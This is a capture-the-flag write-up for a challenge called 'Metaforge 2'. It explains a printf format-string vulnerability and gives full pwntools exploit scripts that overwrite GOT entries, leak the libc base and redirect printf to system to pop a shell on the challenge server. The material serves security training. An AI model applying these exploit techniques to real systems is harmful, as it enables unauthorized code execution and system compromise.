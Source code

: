 # Metaforge 2

nc 0.cloud.chals.io 30732

`Same challenge but pop a shell`

## Challenge

I'm not going to re-iterate everything that was discovered in the Metaforge 1 writeup, but the important thing to remember is that we can control where `exit` goes.

Here's a refresh on the code.
```c
void main(void)

{
  char *local_78;
  size_t local_70;
  char local_68 [96];
  
  local_70 = 0x60;
  memset(local_68,0,0x60);
  local_78 = local_68;
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  puts("This challenge seems easy enough");
  getline(&local_78,&local_70,stdin);
  printf(local_68);
                    /* WARNING: Subroutine does not return */
  _exit(0);
}

void win(void)

{
  int __in_fd;
  
  __in_fd = open("./flag.txt",0,0);
  sendfile(1,__in_fd,(off_t *)0x0,0x60);
  return;
}
```

Previously we overwrote the `exit@got.plt` entry to return to win.

```python
from pwn import *

elf = context.binary = ELF('./chall')
#p = process('./chall')
p = remote('0.cloud.chals.io', 30732)

#Offset to write address at
offset = 8
#Where we want to write to (exit@got.plt)
target = 0x404000
#What we want to write it to (win function)
win = 0x0000000000401196

payload = fmtstr_payload(offset, {target : win})
p.sendline(payload)
p.interactive()
```

But in order to get the next flag we need to pop a shell on the system.

Heres a list of things we need to achieve in order to do this:
- Re-iterate our printf vulnerability
- Obtain libc base
- Change printf to system

So first off, we can grab the libc and linker from the dockerfile that was given with the challenge.

To get an arbitrary number of printf vuln's, we can rewrite the `exit@got.plt` entry to just return to main. That way after every execution of main it just returns back to main in an infinite loop.

After than we can use the stack leaks with `%p` in order to get our libc base. With some play testing I was able to see that offset 37 had a memory address located in the libc range. With that I was able to calculate the libc base.

After that, we can simply just overwrite the got entry for printf to system. And we want to do this because after our input is read on the next go around, we can insert an arbitrary system command into it, which will be passed to system(). For our purposes of getting a shell here we will write `/bin/sh` into our buffer.

Heres that in code:

```python
from pwn import *

elf = context.binary = ELF('./chall')
#p = process('./chall')
p = remote('0.cloud.chals.io', 30732)

#Setting our libc (note that patchelf was used to utilize libc and linker from docker)
libc = elf.libc

#Offset
offset = 8
#Memory to write to
ret_address = 0x404000
#What to write
desire = 0x4011db

#Looping back to main by writing mains address to exit@got.plt
payload = fmtstr_payload(offset, {ret_address : desire})
p.sendlineafter(b'This challenge seems easy enough', payload)

#Leaking libc address and calculating base
payload = b'%37$p'
p.sendlineafter(b'This challenge seems easy enough', payload)
p.recvline() # junk
leak = int((p.recvuntil(b'\n')[:-1]), 16)
libc.address = leak - 0x276ca
log.info(hex(libc.address))

#We really only need to overwrite the last two bytes of the libc address because its already a libc address with a different offset
payload = fmtstr_payload(offset, {0x404010 : p64(libc.sym['system'])[:2]})
p.sendlineafter(b'This challenge seems easy enough', payload)
p.interactive()
```

## Flag

`SIVUSCG{NOW_THIS_IS_WHAT_WE_CALL_ROP_24}`
